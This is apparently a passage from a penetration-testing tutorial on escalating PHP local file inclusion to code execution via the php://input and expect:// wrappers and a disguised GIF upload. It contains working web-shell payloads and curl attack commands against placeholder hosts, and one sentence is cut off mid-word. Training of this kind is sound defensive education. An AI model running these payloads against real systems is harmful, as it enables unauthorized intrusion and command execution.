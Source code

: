 ### Input
Similar to the data wrapper, the input wrapper can be used to include external input and execute PHP code. The difference between it and the data wrapper is that we pass our input to the input wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the input wrapper also depends on the allow_url_include setting, as mentione

To repeat our earlier attack but with the input wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:
```bash
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

`Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)`

### Expect
Finally, we may utilize the expect wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with allow_url_include earlier, but we'd grep for expect instead, and if it is installed and enabled we'd get the following:
```bash
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

```bash
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

### File Uploads
Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded. However, as discussed earlier, the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.

#### Crafting Malicious Image
Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. shell.gif), and should also include the image magic bytes at the beginning of the file content (e.g. GIF8), just in case the upload form checks for both the extension and content type as well. We can do so as follows:
```bash
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.
